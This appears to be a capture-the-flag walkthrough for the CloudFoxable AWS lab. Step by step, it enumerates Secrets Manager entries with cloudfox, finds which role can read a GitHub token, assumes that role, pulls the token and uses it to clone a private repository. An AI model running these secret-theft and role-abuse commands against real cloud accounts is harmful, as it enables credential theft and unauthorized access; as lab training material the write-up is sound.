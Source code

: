 
#### find interesting secret

❯ cloudfox aws -p cflab secrets -v2


#### Who can access the secret?

❯ pmapper --profile cflab query "who can do secretsmanager:GetSecretValue with arn:aws:secretsmanager:us-west-2:049881439828:secret:github-pat-LvWNL0"


#### who can assume that role?

❯ cloudfox aws -p cflab role-trusts -v2

### From ctf starting user assume the role
❯ aws sts assume-role --role-arn arn:aws:iam::049881439828:role/ml-engineering --role-session-name test

or configure your profile: 

[profile ml-engineering]
region = us-west-2
role_arn = arn:aws:iam::049881439828:role/ml-engineering
source_profile = ctf

### Access the cloudfox secrets loot file
❯ cat pull-secrets-commands.txt
aws --profile $profile --region us-west-2 secretsmanager get-secret-value --secret-id github-pat

export profile=ml-engineering


❯ aws --profile $profile --region us-west-2 secretsmanager get-secret-value --secret-id github-pat

### Install gh command line tool and authenticate with token

echo TOKEN_VALUE > token
gh auth login --with-token < token
gh repo list

## Find the private repo and clone it

❯ gh repo clone cloudfoxable/super-secret-ML-stuff

## Find the flag
